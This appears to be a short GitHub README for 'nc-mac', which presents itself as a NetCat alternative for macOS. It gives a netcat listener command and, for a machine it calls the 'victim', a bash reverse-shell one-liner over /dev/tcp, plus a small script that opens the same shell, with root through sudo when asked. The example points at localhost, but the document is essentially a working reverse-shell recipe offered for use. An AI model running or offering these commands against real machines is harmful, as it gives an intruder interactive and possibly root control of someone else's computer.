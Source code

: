 # nc-mac
A simple NetCat alternative for MacOS

## On the listener's machine:

You can simply run the command

```
nc -lnvp 69
```

this will set up a listener that will run until a connection disconnects

## On the "victim"'s machine:

You can run
```
bash -i >& /dev/tcp/127.0.0.1/69 0>&1
```
or set up a fancy shell file like I have:

```sh
#!/bin/bash

if [ "$1" == "root" ]; then
    sudo bash -i >& /dev/tcp/127.0.0.1/69 0>&1
else
    bash -i >& /dev/tcp/127.0.0.1/69 0>&1
fi
```

this is basically the equivelent of running nc with the `-e` switch on linux, but on mac

cool right?

